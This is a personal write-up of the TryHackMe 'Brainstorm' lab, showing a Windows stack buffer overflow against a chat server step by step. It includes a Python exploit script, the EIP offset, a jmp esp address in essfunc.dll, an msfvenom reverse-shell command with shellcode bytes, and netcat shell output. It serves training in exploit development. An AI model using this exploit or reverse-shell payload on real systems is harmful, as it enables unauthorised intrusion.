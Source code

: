 # Brainstorm [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.94.151
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -p- -Pn $targ3t -oN nmap.scan -vv
```

It appears that open ports for this machine are `21`, `3389` and `9999`. Let's perform a script scan on these:

```
nmap -p 21,3389,9999 --script=vuln $targ3t -oN nmap.vuln.scan -vv
```

It doesn't seem like the ports have obvious vulnerabilities, but port `21` or `ftp` allows anonymous login, so let's do it:

```
ftp anonymous@targ3t
```

We can see that there is a chatserver directory and in it we have `chatserver.exe` and `essfunc.dll`. Let's download both.

Now going to port `9999`, where it seems like this chatserver is running, it doesn't have anything suspicious:

```
nc 10.10.227.170 9999
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Write a message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


Mon Feb 24 09:49:58 2025
AAAAAAAAAAAAAAAAAAAA said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

To test this properly, I'll mount a local Windows VM. This [write-up](https://amirr0r.github.io/posts/thm-brainstorm/) here is using `x64dbg`, which is an open-source reverse engineering application and I absolutely loved it, so I'll be using this one too. 

<sup>_For context, I tried to go through this workflow with Immunity Debugger and `mona`, but it didn't work, because of the wrong Python configuration and I didn't try to correct it, because I didn't like Immunity Debugger and `mona` very much anyway, so I thought this could be a good way to explore alternatives_</sup>

First we need to fuzz this `Write a message:` input field. I decided to do this manually, by generating cyclic patterns of different length, incrementing by 100. Finally this is the one that worked:

``` 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100
```

This crashed the application, while 2000 didn't. Which means the offset is somewhere in-between. Now we need to navigate to `x32dbg` and copy the value of the EIP register:

```
31704330
```

Then we check this value with a pattern offset:

```
└─$ /usr/bin/msf-pattern_offset -q 31704330
[*] Exact match at offset 2012
```

Now we need to write a script, that we will use as an exploit more than once:

```python3
#!/usr/bin/env python3
import socket
import time

ip = "192.168.0.111"  # Target IP
port = 9999  # Target Port

username = "A" * 20

offset = 2012
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

message = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Connected to target.")

    print("Sending username...")
    s.sendall(bytes(username + "\r\n", "latin-1"))

    time.sleep(1)  # Adjust based on response timing

    print("Sending evil buffer as a message...")
    s.sendall(bytes(message + "\r\n", "latin-1"))

    print("Done!")
except Exception as e:
    print(f"Could not connect: {e}")
finally:
    s.close()
```

I borrowed this code from the [Buffer Overflow Prep](../thm_bufferoverflow/README.md) room and modified it to work with this app.

Now I'm going to use this script to find out if EIP will be overwritten with 4 `B`s if I put them in `retn` variable:

```
overflow = "A" * offset
retn = "BBBB"
```

And then launch it:

```
python3 exploit.py
```

And this does overwrite the EIP with `42424242` which is `BBBB` in hex:

```
EIP     42424242
```

Now that we're sure we control the EIP, let's generate an array of characters and send them on top of this buffer. I borrowed a script from the above-mentioned Buffer Overflow Prep room:

```python3
#!/usr/bin/env python3

import sys

def generate_bytearray(excluded_bytes):
    excluded = bytes.fromhex(excluded_bytes.replace("\\x", "").lower())
    print("".join(f"\\x{x:02x}" for x in range(256) if x not in excluded))

if __name__ == "__main__":
    excluded_bytes = sys.argv[1] if len(sys.argv) > 1 else ""
    generate_bytearray(excluded_bytes)
```

The command to generate all bytes except `\x00` is:

```
python3 bytearray.py "\x00"
```

Now we need to copy the output into `padding` variable in our exploit and launch it:

```
python3 exploit.py
```

Now we are going to need an `ERC.Xdbg` plugin to proceed further, so make sure to install it and if done, configure it in the command input:

```
ERC --config SetWorkingDirectory C:\Users\user\Desktop\
```

And then generate a bytearray:

```
ERC --bytearray
```

After that you can copy ESP address and compare two bytearrays byte by byte:

```
ERC --compare 0109EEAC C:\Users\user\Desktop\ByteArray_1.bin
```

It seems like there are no bad chars. 

Now we need to find a return address and write it to the EIP. With the help of `ERC.Xdbg` plugin we can search for modules used by this binary, with disabled security protections:

```
ERC --ModuleInfo -NXCompat
```

Only two modules have all protections set to `False`, it's the binary itself and `essfunc.dll` file. Now we need to go to the __Symbols__ tab in the debugger and double click this `dll` file. 

Press Ctrl+F to display a find input and type `jmp esp`. It displays a list of memory addresses which are jump points to ESP. Let's use the very first one:

```
625014DF
```

So converting this to little endian and writing it into `retn` variable would be the first step: `\xdf\x14\x50\x62`

But the next step would be to generate an actual shellcode to work with this:

```
msfvenom -p 'windows/shell_reverse_tcp' LHOST=192.168.0.109 LPORT=9822 -f c --bad-chars="\x00" --var-name payload
```

Copy the output and paste it into the `payload` variable inside the parentheses like this:

```
payload = ("\xda\xd0\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x52\xba\x25\xf3"
...
"\x4b\xea\x3c\x94\x4e\xb6\xfa\x45\x23\xa7\x6e\x69\x90\xc8"
"\xba")
```

Now start a netcat listener and launch the exploit again:

```
nc -lvnp 9822
python3 exploit.py
```

The output is the shell:

```
listening on [any] 9822 ...
connect to [192.168.0.109] from (UNKNOWN) [192.168.0.111] 49898
Microsoft Windows [Version 10.0.22621.4890]
(c) Microsoft Corporation. All rights reserved.

C:\Users\windows\Desktop>whoami
whoami
desktop-n9ia851\windows

C:\Users\windows\Desktop>
```

Taking all of this to the actual TryHackMe Brainstorm machine and generating another shellcode with my VPN IP, I got the root flag:

```
C:\Users\drake\Desktop>type root.txt
type root.txt
................................
C:\Users\drake\Desktop>
```
